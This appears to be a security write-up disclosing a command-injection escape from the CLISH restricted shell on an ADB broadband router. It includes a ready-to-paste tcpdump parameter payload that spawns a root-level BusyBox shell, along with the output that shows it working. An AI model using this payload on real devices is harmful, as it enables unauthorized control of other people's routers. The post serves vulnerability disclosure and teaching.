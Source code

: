 # Escaping from CLISH

For impatient readers: There is a TL;DR at the end.

## Short intro in CLISH

```
********************************************
*            ADB BROADBAND                 *
*                                          *
*      WARNING: Authorised Access Only     *
********************************************

Welcome  
ADB#
```

CLISH is a restricted shell which supports only a set of predefined
commands. Is seems to be developed by a single person, Graeme McKerrell,
 and was last updated 2013-04-26.

### Views
These are used to  define "views" which contain a set of commands. If you type
in `config terminal` for example the shell can open another view with
configuration command and with `exit` you can go back to the view.

### Commands
A command has basically a name, zero or more parameter and an action.
The name is constant and there is no such thing like subcommands. So it's very
simple and a name may be for example `ping` or `config terminal`.
The interesting parts are the parameters and the action. The action are
some shell commands(!) in which the parameters can be used as environment
variables. To disallow [command injection][1] you can restrict the parameter
by using a type.

### Types
A type can be defined with a *regex*,  as *selection* of values or as a
*integer*. By executing a command and while typing each parameter is matched
against its type.

As an additional countermeasure against code injection the characters
\`|$<>&()# are escaped by *adding a backslash in front* of them.

## Problem

So what exactly is the problem? Everything seems fine?
All parameter defined with types using integers and selections seem perfectly
fine if you don't screw up completely.

But what about regular expressions? In the official documentation
"as a reference" there is this type definition:

```xml
<PTYPE name="STRING"
    pattern="[^\-]+"
      help="String"/>
```

This looks pretty OK. We can't use backslashes or use the parameter
as a flag argument because "-" is forbidden. Lets look at the firmware.
Did they implement STRING is differently? YES:

```xml
<PTYPE name="STRING"  
    pattern="[^`]*"
        help="String"/>
```
So.. uhm.. They don't want the backquote (\`) in the string. This
is fine but what about the backslash and minus? Lets try it. Used here
with ping. Other implementations may have ping restricted to
IP-addresses. The ping definition looks something like this:  

### Screwing with Ping

```xml
<COMMAND name="ping"  
         help="send ICMP ECHO_REQUEST to network hosts">

  <PARAM name="destination"
     help="Destination host or IP address"
     ptype="STRING"/>

  <ACTION>exec ping "${destination}"</ACTION>
</COMMAND>
```

```sh
ADB# ping `/bin/sh`  
          ^
destination  String
```

Yes thats what probably what they expected.

```sh
ADB# ping \  
sh: syntax error: unterminated quoted string  
```

Uh oh.. This was translated to `ping "\"`.

```sh
ADB# ping \$SHELL  
ping: bad address '\/bin/clish'
```

The "$" was escaped but an additional backslash escaped the backslash: ```ping "\\$USER"```
While this is funny we can't actually execute something with it. So we have to dig a bit deeper and I found this command:

### Accessing the Shell

```xml
<COMMAND name="tcpdump enable file filter" help="tcpdump enable output file filter">  
    <PARAM name="ifname" help="interface name" ptype="IFNAMES"/>
    <PARAM name="filename" help="log file name" ptype="STRING"/>
    <PARAM name="filter" help="pcap filter" ptype="PCAPFILTER"/>
        <ACTION>
            . /etc/clish/tcpdump.sh "file" "filter" "${ifname}" "${filename}" "${filter}"
        </ACTION>
</COMMAND>  
```

```
ADB# tcpdump enable file filter br0 \ "; sh -c sh \"

ERROR:   Output File has to be stored in a connected mounted USB memory device (ex. /mnt/sda1/ )

HELP:    ...


BusyBox v1.17.3 (2015-09-23 17:35:23 CEST) built-in shell (ash)  
Enter 'help' for a list of built-in commands.

/root $ echo $USER
admin
```

**Hello shell!**

### Some extra candy

While writing this post if took a second look into the type definitions. There was a very interesting one.

```xml
<PTYPE name="WIFI_PASSPHRASE"
       pattern=".........*"
       help="More than 8 char string"/>
```
If you try to write code injection with this one make sure your code has at least 8 characters! ;)

## Mitigation

**RTFM!**
Sanitizing insecure strings by using the type definition from the reference should be enough.

## TL;DR
Paste the following code:
`tcpdump enable file filter br0 \ "; /bin/sh -c /bin/sh \"`

[1][https://www.owasp.org/index.php/Command_Injection]

